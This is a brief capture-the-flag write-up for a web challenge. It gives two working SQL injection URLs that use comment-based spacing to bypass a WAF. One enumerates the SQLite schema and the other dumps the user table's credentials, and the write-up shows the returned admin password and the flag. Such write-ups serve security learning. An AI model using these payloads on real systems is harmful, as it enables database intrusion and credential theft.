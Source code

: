 Get tables

http://jh2i.com:50024/?search=noup%27/**/UNION/**/SELECT%201,2,sql,4,5%20FROM%20sqlite_master%20WHERE%20type!=%27meta%27%20AND%20sql%20NOT%20NULL%20AND%20name%20NOT%20LIKE%20%27sqlite_%%27%20--%20--

WAF bypass with union/**/select

http://jh2i.com:50024/?search=noup%27/**/UNION/**/SELECT%201,username,password,4,5%20FROM%20user--%20--

returns

```
admin
$4
NT7b#ed4$J?eZ#m_
```

Login and get flag in message

flag{check_your_WAF_rules}
